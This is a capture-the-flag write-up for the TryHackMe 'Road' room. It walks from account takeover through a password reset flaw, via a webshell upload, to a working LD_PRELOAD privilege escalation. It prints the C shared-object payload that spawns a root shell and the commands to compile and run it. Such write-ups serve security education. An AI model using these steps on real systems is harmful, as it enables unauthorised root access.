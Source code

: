 # Road

https://tryhackme.com/room/road

Quite a fun little room, with a few things that caught me up.

1. Enumeration reveals 22 and 80. On the latter is a website for 'Sky Couriers'
2. Suddomain and directory busting revealed little, but there was a login page that featured a register link
3. By registering an account, I could get access to the admin portal. In there was just two pieces of functionality: a change password link and a profile edit page.
4. The profile edit page featured a 'upload profile image' function, but it was only available to the admin@sky.thm account.
5. The reset password functionality, when tested, passed the email address of the target account as one of its params. Using this I was able to reset the admin password and get access.
6. The upload profile image functionality did not seem to have any restrictions, however there was no indication *where* the image was uploaded, as the image or whatever was not displayed.
7. Burp's target functionality actually showed me where, by picking up a url in a comment. This allowed me to find my webshell and gain RCE
8. On the box as www-data, I did some basic enumeration. /etc/passwd revealed there was a mongodb user; by running `mongo` I got access to the mongo database, and in one of the database collections was the password for the webdeveloper user.
9. With this password I could SSH in and read the user flag.
10. The webdeveloper user had sudo rights to run a backup program:

  ```
  Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

  User webdeveloper may run the following commands on sky:
      (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
  ```

  I exfiltrated this and decompiled it to find it was running tar with a wildcard. I tried the [wild card exploit](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/), but this was unsuccessful.

11. However, I noted that the sudoers file contained `env_keep += LD_PRELOAD`. This meant that it would be [exploitable via LD_PRELOAD](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/).
12. I created a c script with the following contents

  ```
  #include <stdio.h>
  #include <sys/types.h>
  #include <stdlib.h>
  void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
  }
  ```

13. I then compiled this with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
14. Finally I got a root shell and the root flag with `sudo LD_PRELOAD=/home/webdeveloper/shell.so /usr/bin/sky_backup_utility`
